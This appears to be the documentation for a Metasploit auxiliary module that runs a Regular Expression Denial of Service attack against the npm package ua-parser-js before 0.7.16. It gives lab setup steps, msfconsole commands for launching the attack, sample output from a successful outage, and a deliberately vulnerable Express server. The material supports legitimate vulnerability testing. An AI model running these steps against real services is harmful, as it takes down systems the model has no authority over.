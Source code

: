## Vulnerable Application

This auxiliary module exploits a Regular Expression Denial of Service vulnerability
in the npm module `ua-parser-js`.  Versions before 0.7.16 are vulnerable.  
Any application that uses a vulnerable version of this module and calls the `getOS`
or `getResult` functions will be vulnerable to this module.  An example server is provided
below.

## How to Install

To install a vulnerable version of `ua-parser-js`, run:
```
npm i ua-parser-js@0.7.15
```

## Verification Steps

Example steps in this format (is also in the PR):
1. Create a new directory for test application.
2. Copy below example server into test application directory as `server.js`.
3. Run `npm i express` to install express in the test application directory.
4. To test vulnerable versions of the module, run `npm i ua-parser-js@0.7.15` to install a vulnerable version of ua-parser-js.
5. To test non-vulnerable versions of the module, run `npm i ua-parser-js` to install the latest version of ua-parser-js.
6. Once all dependencies are installed, run the server with `node server.js`.
7. Open up a new terminal.
8. Start msfconsole.
9. `use auxiliary/dos/http/ua_parser_js_redos`.
10. `set RHOST <IP>`.
11. `run`.
12. In vulnerable installations, Module should have positive output and the test application should accept no further requests.
13. In non-vulnerable installations, module should have negative output and the test application should accept further requests.

## Scenarios

### ua-parser-js npm module version 0.7.15

Expected output for successful exploitation:

```
[*] Testing Service to make sure it is working.
[*] Test request successful, attempting to send payload
[*] Sending ReDoS request to 192.168.3.24:3000.
[*] No response received from 192.168.3.24:3000, service is most likely unresponsive.
[*] Testing for service unresponsiveness.
[+] Service not responding.
[*] Auxiliary module execution completed
```

### Example Vulnerable Application

```
// npm i express
// npm i ua-parser-js@0.7.15 (vulnerable)
// npm i ua-parser-js (non-vulnerable)

const express = require('express')
const uaParser = require('ua-parser-js');
const app = express()

app.get('/', (req, res) => {
  var parser = new uaParser(req.headers['user-agent']);
  res.end(JSON.stringify(parser.getResult()));
});

app.listen(3000, '0.0.0.0', () => console.log('Example app listening on port 3000!'))
```
